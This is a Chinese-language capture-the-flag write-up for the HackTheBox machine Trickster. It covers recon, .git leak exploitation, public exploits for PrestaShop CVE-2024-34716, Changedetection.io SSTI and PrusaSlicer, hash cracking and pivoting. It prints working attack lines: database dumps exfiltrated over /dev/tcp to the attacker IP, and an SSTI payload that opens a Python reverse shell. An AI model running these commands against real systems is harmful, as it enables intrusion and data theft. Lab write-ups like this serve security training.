# Linux渗透实战之Trickster-先知社区

> **来源**: https://xz.aliyun.com/news/16339  
> **文章ID**: 16339

---

  
靶机链接：<https://app.hackthebox.com/machines/Trickster>

## 知识总结

```
目录&子域名爆破
.git泄露
CVE-2024-34716利用
配置文件枚举
ping&伪设备枚举
mysqldump转储数据库
hashcat&john
ssh端口转发
CVE-2024-32651利用
PrusaSlicer 2.6.1 - Arbitrary code execution
```

## 信息收集

### 端口探测

```
nmap -sT --min-rate 10000 -p- 10.10.11.34
..................
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

详细扫描

```
nmap -sTVC -O -p22,80 10.10.11.34
..............
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_  256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web服务枚举

  
点shop跳转了一个页面，其实右键看源码也可以看见

  
废话不多说，目录&子域名爆破组合拳

#### 目录&子域名爆破

```
ffuf -c -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt -u 'http://trickster.htb' -H "Host:FUZZ.trickster.htb" -fw 20
只爆破出了shop
.....................
feroxbuster --url http://shop.trickster.htb/ --status-codes '200,301,302'
过滤了一下，只看感兴趣的
发现了.git，撕开小口子
```



#### .git文件泄露

<https://github.com/lijiejie/GitHack>

```
python3 GitHack.py http://shop.trickster.htb/.git/
```

  
发现admin634ewutrx1jgitlooaj路由，会跳转到一个登录界面

  
发现PrestaShop版本为8.1.5，上网搜索找到了CVE-2024-34716



## 建立立足点

### CVE-2024-34716利用

  
<https://github.com/aelmokhtar/CVE-2024-34716>

```
python3 exploit.py --url 'http://shop.trickster.htb/' --email 'Obito@qq.com' --local-ip 10.10.16.41 --admin-path 'admin634ewutrx1jgitlooaj'
```



### 枚举

建立了初始立足点，www-data账号，权限不高，先把shell完整一下

```
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

看了看home目录发现三个用户

```
adam  james  runner
```

一般获得www-data账号，我们能操作的地方很少，常见思路是去找数据库&备份&配置等敏感文件

  
开了3306端口，本地大概率起了一个mysql，尝试找配置文件

```
find /var/www -name '*back*' 2>/dev/null
find /var/www -name '*config*' 2>/dev/null
```

  
出现了很多config相关的文件夹及文件，一个一个找不现实，从哪里下手依赖经验及当前情势的判断，我们发现在app/config下放了很多config相关的文件，并且该路径也出现的靠前，先尝试着看看，如若不行在考虑其他路径

  
不过依旧有很多文件，其实我们的目的很明确，就是找mysql的一些配置文件，想登录进去数据库看看，因此我们可以使用grep来过滤关键词帮助我们查找，如database，NULL,pass之类的

```
grep -R -i pass ./* 2>/dev/null
```

  
我们在parameters.php文件中发现了我们想要的

  
那就来登录数据库看看

### mysql枚举

```
mysql -u ps_user -p prest@shop_o
```

发现两个数据库：information\_schmea和prestashop

```
select table_name from information_schema.tables where table_schema=database();
```

想看prestashop数据库中都有哪些表,结果发现了很多表  
276 rows in set (0.001 sec)，表太多了，而且在命令行界面去输入命令去查询也耗时耗力，因为打算将数据库文件打包拖到本地去处理

#### 转储数据库

```
find / -name '*.sql' 2>/dev/null
```



```
cat /usr/share/mysql/mysql_system_tables.sql >/dev/tcp/10.10.16.41/8888
.................
nc -lvnp 8888 > mysql_system_tables.sql
```

虽然把这6个sql文件转储了出来但并未找到我想要的信息

##### 借助mysqldump转储

```
mysqldump -u ps_user -p --all-databases > /tmp/backup.sql
```

这样把整个数据库全转储了出来

```
cat /tmp/backup.sql >/dev/tcp/10.10.16.41/8888
.................
nc -lvnp 8888 > backup.sql
```

我用物理机的Navicat打开查找数据

```
'adam@trickster.htb','$2y$10$kY2G39RBz9P0S48EuSobuOJba/HgmQ7ZtajfZZ3plVLWnaBbS4gei'
'james@trickster.htb','$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm'
```

成功找到adam和james的密码，可以使用name-that-hash识别一下



```
hashcat '$2y$10$kY2G39RBz9P0S48EuSobuOJba/HgmQ7ZtajfZZ3plVLWnaBbS4gei' -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
...................
hashcat '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm' -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

最后只爆破出来了一组james:alwaysandforever



## 权限提升

  
发现了docker的网卡  
这里我们可以上传一些扫描工具，也可以借助系统自带的命令去扫描网段

### ping&伪设备枚举

这里以ping举例

```
for i in {1..254}; do ping -c 1 -W 0.1 172.17.0.$i|grep from;done
```

  
只发现了一个ip，接下来我们要探测一下端口，可以通过伪设备来实现

```
for i in {1..65535}; do (echo < /dev/tcp/172.17.0.2/$i) &>/dev/null && printf "\n[+] The open port is : %d\n" "$i" || printf ".";done
```

最终发现了一个5000端口  
其实上面的这些，上传个fscan一条命令就能完成，但在这里给大家小小扩展一下

### ssh端口转发

```
ssh james@trickster.htb -L 0.0.0.0:5000:172.17.0.2:5000
```

  
输入james的密码即可登录进去

### CVE-2024-32651

  
发现Changedetection.io的版本为v0.45.20  
上网搜索找到了可利用的CVE-2024-32651  
参考：<https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/>  
跟着教程打一遍

  
kali启动一个http服务

```
python3 -m http.server 80
```

  
最终payload：

```
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.41",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'').read() }}
```

  
修改一下index.html，然后重新检查即可

  
获得容器的root  
参考了一些wp，说是有非预期，执行history后会看到靶机的root密码，但已经修复了

### adam凭证获取

在根目录下面发现了可疑目录，cd进去后发现了zip文件，把它拿出来看看



```
容器root：cat changedetection-backup-20241224060547.zip > /dev/tcp/172.17.0.1/6666
.............
james@trickster: nc -lvnp 6666
............
攻击机kali：scp -P 22 james@10.10.11.34:/tmp/changedetection-backup-20240830194841.zip ./
```

  
在压缩包内发现br格式文件

```
brotli -d f04f0732f120c0cc84a993ad99decb2c.txt.br
```

  
获得adam的密码，ssh连上去

```
adam:adam_admin992
```

### PrusaSlicer 2.6.1 - Arbitrary code execution

  
参考链接：  
<https://www.exploit-db.com/exploits/51983>  
原本打算手动操作一遍，结果

  
一直报错................  
我将自己的疑惑发在了某群里，群里的lzh师傅给我了一个自动化脚本的链接，再此非常感谢！  
<https://github.com/suce0155/prusaslicer_exploit>

  
修改一下exploit.sh中的IP和PORT

  
最后kali开启监听即可


## 总结

这台靶机挺有趣的，兔子洞不少，难度的话在中等偏上吧，其中找凭据建立立足点卡了几个小时，最终提权到root打PrusaSlicer 2.6.1 - Arbitrary code execution，花了一晚上也没打通，最后在lzh师傅的帮助下利用了一个自动化脚本成功root！
